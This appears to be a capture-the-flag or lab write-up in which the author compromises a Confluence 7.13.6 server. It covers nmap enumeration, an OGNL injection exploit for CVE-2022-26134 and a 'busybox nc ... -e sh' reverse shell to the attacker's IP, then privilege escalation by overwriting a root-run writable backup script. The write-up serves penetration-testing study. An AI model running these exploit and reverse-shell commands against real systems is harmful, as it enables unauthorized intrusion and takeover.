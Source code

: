 #Pwned! 
```IP
192.168.140.41
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.140.41 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE       REASON         VERSION
22/tcp   open  ssh           syn-ack ttl 61 OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 02:79:64:84:da:12:97:23:77:8a:3a:60:20:96:ee:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEXrRUno9oC8lTzQc4mkRYkhVE1WFraJqALzhn+4EmH4j57s4WioLYYYESpMPsdluWAXJreN+LVlUL/5UteMBbI=
|   256 dd:49:a3:89:d7:57:ca:92:f0:6c:fe:59:a6:24:cc:87 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIITU00dnwzhT+PFW6y7qRlFYCQ0UzFakp4R4NIq5TWiS
8090/tcp open  opsmessaging? syn-ack ttl 61
8091/tcp open  jamlink?      syn-ack ttl 61
```
Ubuntu 1ubuntu8.5
## HTTP 8091
Location: http://localhost:8090/login.action?os_destination=%2Findex.action&permissionViolation=true

## HTTP 8090
Server: Aleph/0.4.6
Confluence - 7.13.6
dologin.action
Credentials that didnt work
```
admin:admin
admin:password
```
https://www.vicarius.io/vsociety/posts/authentication-bypass-in-confluence-cve-2023-22518

# Exploitation

```
python3 exploit.py http://192.168.140.41:8090
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204090401.png?raw=true)

however we cant access the  server. Other exploits for cve 2023 22518 doesnt work either

we move on to cve 2022 26134
https://github.com/hev0x/CVE-2022-26134
In the Atlassian offical webpage we can assess that our version (7.13.6) is affected by this exploit:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204094108.png?raw=true)

```
python exploit.py -u http://192.168.140.41:8090 -c 'ping -c 5 192.168.45.176' 
```
this exploit does work as shown below:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204093932.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204093917.png?raw=true)
```
python exploit.py -u http://192.168.140.41:8090 -c 'busybox nc  192.168.45.176 443 -e sh'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204094546.png?raw=true)

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204094715.png?raw=true)

probable vulnerability in /opt/log-backup.sh
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204094906.png?raw=true)

with pspy we can see that it is running as root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204100339.png?raw=true)

we will try to substitute log-backup.sh since we have write permissions on it. So we create a shell as shown below
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204100755.png?raw=true)
we copy it and we wait for the reverse shell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204100850.png?raw=true)\
 and listening to the port 4444 we get our root shell
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204100952.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

